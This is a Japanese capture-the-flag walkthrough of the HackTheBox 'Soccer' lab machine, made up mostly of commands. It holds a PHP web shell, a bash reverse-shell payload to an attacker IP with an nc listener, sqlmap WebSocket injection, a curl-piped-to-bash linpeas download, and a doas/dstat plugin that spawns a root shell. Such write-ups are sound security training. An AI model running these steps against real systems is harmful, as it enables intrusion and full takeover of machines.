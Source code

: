 # HackTheBox: Soccer Walkthrough

## 1. ポートスキャンと初期調査

```bash
sudo nmap -sC -sV -oA portscan soccer.htb
less portscan
```

## 2. ホスト設定

```bash
sudo nano /etc/hosts
# 追加:
<IP address> soccer.htb
```

## 3. Web探索

- ブラウザで `http://soccer.htb:9091` を開く
- ディレクトリ探索：

```bash
gobuster dir -u http://soccer.htb/ -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
```

- `/tiny/` にログインページ発見
- "h3k Tiny File Manager" を検索してGitHub情報を確認

## 4. ログインとファイルアップロード

- 試行ログイン：`admin / admin@123`
- アップロードセクションを探す
- Webシェル作成：

```php
<?php system($_REQUEST['cmd']); ?>
```

```bash
nano shell.php
# アップロード: shell.php
# アクセス: http://soccer.htb/tiny/uploads/shell.php?cmd=whoami
```

## 5. リバースシェル取得

- Burpでインターセプト → `cmd=bash -sC 'bash -i >& /dev/tcp/<host IP address>/9001 0>&1'`
- Ctrl+UでURLエンコード
- リスナー起動：

```bash
nc -lnvp 9001
```

- Burp経由で送信 → シェル取得

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
clear
```

## 6. サーバー調査

```bash
ss -lntp
ps -ef --forest
cat /etc/fstab
ls /proc
cd /etc/nginx/sites-enabled/
cat default
cat soc-play.htb
```

## 7. 新しいホスト追加と探索

```bash
sudo nano /etc/hosts
# 追加:
<IP address> soc-player.soccer.htb
```

- ブラウザで `soc-player.soccer.htb` にアクセス
- サインアップページへ → `root@daijiro.rocks / password`
- SQL Injection 試行：`69330 or 1=1-- -`

## 8. WebSocket SQL Injection

- BurpでWebSocketメッセージ取得 → `injection.req` に保存

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --technique=B --risk 3 --level 5 --batch --dbs --threads 10
wscat -c soc-player.soccer.htb:9091
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --technique=B --risk 3 --level 5 --batch --threads 10 -D soccer_db --dump
```

## 9. プレイヤーとしてログイン

```bash
ssh player@soccer.htb
# パスワード: PlayerOftheMatch2022
```

## 10. ローカル探索

```bash
cat /etc/passwd | grep sh$
ls -la
ps -ef --forest
find / -user player 2>/dev/null | grep -v '^/proc\|^/run\|^/sys'
groups
find / -user group player 2>/dev/null | grep -v '^/proc\|^/run\|^/sys'
```

## 11. dstat関連の調査

```bash
cat /usr/local/share/dstat
ls -la /usr/local/share/dstat
find / -name dstat 2>/dev/null
sudo -l
```

- SQLMapの出力確認：

```bash
cd ~/.config/.local/share/sqlmap/output/soc-player.soccer.htb/dump/succer_db
cat accounts.csv
```

- パスワード取得 → 使用

```bash
stat /usr/bin/dstat
```

## 12. 権限昇格調査

- linpeas使用：

```bash
python3 -m http.server
curl <host IP address>:8000/linpeas.sh | bash
```

- SUID探索：

```bash
find / -perm -4000 -ls 2>/dev/null
find /etc | grep does
find / 2>/dev/null | grep does
cat /usr/local/etc/doas.conf
```

## 13. Exploit作成と実行

```bash
vi dstat_pleasesubscribe.py
# 内容:
import os
os.execv("/bin/sh", ["sh"])

doas /usr/bin/dstat --pleasesubscribe
```

## 14. Root取得

```bash
id
cd /root
ls
cat root.txt
```

---
